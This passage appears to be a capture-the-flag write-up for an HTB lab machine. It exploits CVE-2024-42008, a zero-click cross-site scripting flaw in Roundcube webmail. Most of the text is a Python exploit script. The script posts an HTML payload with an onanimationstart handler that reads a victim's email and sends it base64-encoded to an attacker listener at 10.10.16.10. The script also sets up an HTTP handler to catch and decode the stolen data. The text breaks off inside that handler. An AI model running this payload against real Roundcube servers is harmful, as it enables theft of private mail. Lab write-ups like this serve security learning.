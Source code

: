 This version of Roundcube allows you to do XSS with 0-click. We will use CVE-2024-42008 and
repeat this video , and we will take the description of the vulnerabilities from the article .
`https://www.youtube.com/watch?v=X7UX7b7Tkrk`
And there is an article `https://www.sonarsource.com/blog/government-emails-at-risk-critical-cross-site-scripting-vulnerability-in-roundcube-webmail/`

Let's take a script from the guys from a well-known forum and modify it a little:
```
import requests
from http.server import BaseHTTPRequestHandler, HTTPServer
import base64
import threading
from lxml import html


# Configuration
TARGET_URL = 'http://drip.htb/contact'
LISTEN_PORT = 8000
LISTEN_IP = '0.0.0.0'

# Payload for the POST request
start_mesg = '<body title="bgcolor=foo" name="bar style=animation-name:progress-bar-stripes onanimationstart=fetch(\'/?_task=mail&_action=show&_uid='
message = 3
end_mesg = '&_mbox=INBOX&_extwin=1\').then(r=>r.text()).then(t=>fetch(`http://10.10.16.10:8000/c=${btoa(t)}`)) foo=bar">Foo</body>'

post_data = {
    'name': 'root',
    'email': 'root@drip.htb',
    'message': f"{start_mesg}{message}{end_mesg}",
    'content': 'html',
    'recipient': 'bcase@drip.htb'
}
print(f"{start_mesg}{message}{end_mesg}")

# Headers for the POST request
headers = {
    'Host': 'drip.htb',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://drip.htb',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': 'http://drip.htb/index',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9',
    'Cookie': 'session=eyJfZnJlc2giOmZhbHNlfQ.Z6fOBw.u9iWIiki2cUK55mmcizrzU5EJzE',
    'Connection': 'close'
}

# Function to send the POST request
def send_post():
    response = requests.post(TARGET_URL, data=post_data, headers=headers)
    print(f"[+] POST Request Sent! Status Code: {response.status_code}")

# Custom HTTP request handler to capture and decode the incoming data
class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if '/c=' in self.path:
            encoded_data = self.path.split('/c=')[1]
```